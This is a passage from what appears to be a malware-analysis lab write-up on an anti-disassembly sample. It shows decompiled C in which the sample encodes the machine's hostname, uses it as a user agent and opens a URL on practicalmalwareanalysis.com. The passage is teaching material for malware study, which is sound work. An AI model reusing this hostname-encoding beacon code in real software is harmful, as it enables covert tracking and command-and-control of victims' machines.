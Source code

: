     .text:004012EF 6A 0A                             push    0Ah
    .text:004012F1 6A 00                             push    0
    ...
    ```
    
---

### Analyze
* After fixing the misdirection location, we can use disassembly function properly.
    ```assembly=1
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      ...
      Buffer = 0;
      memset(&v8, 0, 65532u);
      v9 = 0;
      v10 = 0;
      if ( WSAStartup(514u, &WSAData) )
        return -1;
      if ( gethostname(name, 256) )
      {
        for ( i = 0; i < 256 && name[i]; ++i )
        {
          switch ( name[i] )
          {
            case 'Z':
              name[i] = 'A';
              break;
            case 'z':
              name[i] = 'a';
              break;
            case '9':
              name[i] = '0';
              break;
            default:
              ++name[i];
              break;
          }
        }
        hInternet = InternetOpenA(name, 1u, 0, 0, 0);
        if ( !&v5 )
          JUMPOUT(*(_DWORD *)&byte_40115E);
        v4 = sub_401386();
        hFile = InternetOpenUrlA(hInternet, v4, 0, 0, 0, 0);
      ...
    }
    ```
* You can see that in **line <font color="FF0000">`34`</font>**. It call a function `sub_401386()` and set the return value as `InterneetOpenUrlA`'s parameter.
In `sub_401386()`, it contains lots of string which seems a URL address named <font color="FF0000">**`http://practicalmalwareanalysis.com/bamboo.html`**</font> and `InterneetOpenUrlA` will visit this URL.
